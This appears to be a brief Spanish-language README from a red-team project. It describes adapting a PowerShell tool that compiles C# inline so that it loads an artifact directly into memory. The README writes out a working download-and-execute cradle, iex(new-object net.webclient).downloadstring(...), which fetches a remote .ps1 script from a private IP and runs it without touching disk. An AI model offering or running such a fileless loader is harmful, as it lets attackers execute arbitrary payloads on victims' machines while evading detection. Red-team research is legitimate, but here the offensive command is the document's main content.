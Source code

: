 ############################# REDTEAM ################################



Modificación del código de https://github.com/thec0nci3rge/PS_with_inline_csharp_compilation para cargar artefacto desde url y ponerlo en memoria directamente con:

iex(new-object net.webclient).downloadstring('http://192.168.11.129:8000/artefacto.ps1')

La idea incial de ejecutar desde powershell codigo compilado al vuelo C#  -> [John Hammond's VIDEO](https://www.youtube.com/watch?v=EwEwRLedeKI)




#####################################################################
